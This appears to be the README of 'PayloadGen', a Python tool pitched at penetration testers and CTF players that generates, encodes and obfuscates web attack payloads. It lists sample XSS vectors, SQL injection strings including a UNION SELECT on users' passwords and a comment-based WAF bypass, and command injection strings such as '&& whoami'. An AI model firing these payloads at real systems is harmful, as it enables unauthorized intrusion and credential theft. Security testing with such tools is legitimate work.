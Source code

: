 # 🚀 PayloadGen – Web Payload Generator Tool

A modular offensive security tool to generate, encode, obfuscate, and export web attack payloads like **XSS**, **SQL Injection**, and **Command Injection**. Perfect for security researchers, penetration testers, and CTF enthusiasts.

---

## ✨ Features

- 🔍 Payload generation for:
  - Cross-Site Scripting (XSS)
  - SQL Injection (SQLi)
  - Command Injection (CMDi)
- 🔐 Encode payloads:
  - URL encoding
  - Base64
  - Hexadecimal
  - Unicode escape
- 🛡️ Obfuscate payloads using comment injection (`/**/`)
- 📋 Copy payloads directly to clipboard (`--clip`)
- 📄 Export payloads to structured `output.json`
- 🧩 Fully modular and extensible codebase
- 🐧 Works on Kali Linux, Parrot OS, and any Linux with Python 3

---

## 🔧 Usage Examples

\`\`\`bash
# Basic payload generation
python3 main.py --xss
python3 main.py --sqli
python3 main.py --cmd

# Encode payloads
python3 main.py --xss --encode=url
python3 main.py --sqli --encode=base64
python3 main.py --cmd --encode=unicode

# Obfuscate payloads
python3 main.py --xss --obfuscate

# Encode + Obfuscate + Export
python3 main.py --cmd --encode=hex --obfuscate --export

# Copy first payload to clipboard
python3 main.py --xss --clip
\`\`\`

---

## 🐍 Requirements

- Python 3.7+
- Install dependencies safely in a virtual environment:

\`\`\`bash
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
\`\`\`

Content of \`requirements.txt\`:
\`\`\`
pyperclip
\`\`\`

---

## 🧪 Payload Samples

### XSS Payloads:
- \`<script>alert(1)</script>\`
- \`<img src=x onerror=alert(1)>\`
- \`javascript:alert(1)\`
- \`<svg/onload=alert(1)>\`
- \`<iframe srcdoc="<script>alert(1)</script>">\`
- \`<script%00>alert(1)</script>\`

### SQL Injection Payloads:
- \`' UNION SELECT null, username, password FROM users--\`
- \`' OR 1=1 ORDER BY 100--\`
- \`' AND SLEEP(5)--\`
- \`'/**/UNION/**/SELECT/**/NULL--\`
- \`' uNIoN SeLEct null--\`

### Command Injection Payloads:
- \`;ls\`
- \`&& whoami\`
- \`\` \`id\` \`\`
- \`& whoami\` (Windows)
- \`| net user\` (Windows)

---

## 💡 Encoding Types

| Method     | Result Example                        |
|------------|----------------------------------------|
| \`url\`      | %3Cscript%3Ealert(1)%3C%2Fscript%3E     |
| \`base64\`   | PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==    |
| \`hex\`      | 0x3c0x730x630x720x690x700x740x3e...     |
| \`unicode\`  | \\u003c\\u0073\\u0063\\u0072...         |

---

## 🔐 Obfuscation Support

Obfuscates spaces using inline comments (\`/**/\`) for WAF bypass:

\`\`\`bash
python3 main.py --sqli --obfuscate
\`\`\`

Result:
\`\`\`
SELECT/**//*/*/**/FROM/**/users
\`\`\`

---

## 📂 Output Formats

| Output Type  | Description                                |
|--------------|--------------------------------------------|
| Terminal     | Default payload listing                    |
| Clipboard    | First payload copied with \`--clip\`         |
| File         | JSON output saved with \`--export\`          |
| Screenshot   | (optional) for GUI demo or reports         |


## 👨‍💻 Author

- **Ubaidullah Qureshi**


